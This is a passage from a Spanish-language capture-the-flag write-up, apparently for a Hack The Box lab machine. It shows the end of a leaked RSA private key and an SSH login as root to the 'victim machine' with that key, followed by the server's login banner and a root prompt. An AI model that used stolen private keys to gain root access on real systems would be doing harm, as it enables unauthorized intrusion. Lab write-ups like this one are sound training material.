 ```bash
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----
```
Y procedemos a Conectarmos por SSH a la Maquina Victima:
```bash
# "ssh -i id_rsa root@10.10.10.220      "                                                                                                                                                                     130 ⨯
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 18 May 2021 09:29:05 AM UTC

  System load:                      0.01
  Usage of /:                       64.6% of 17.59GB
  Memory usage:                     72%
  Swap usage:                       0%
  Processes:                        347
  Users logged in:                  0
  IPv4 address for br-bcb73b090b3f: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.220
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:c391

  => There are 18 zombie processes.

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

186 updates can be installed immediately.
89 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 11 14:28:18 2021
"root@ready:~# "
```
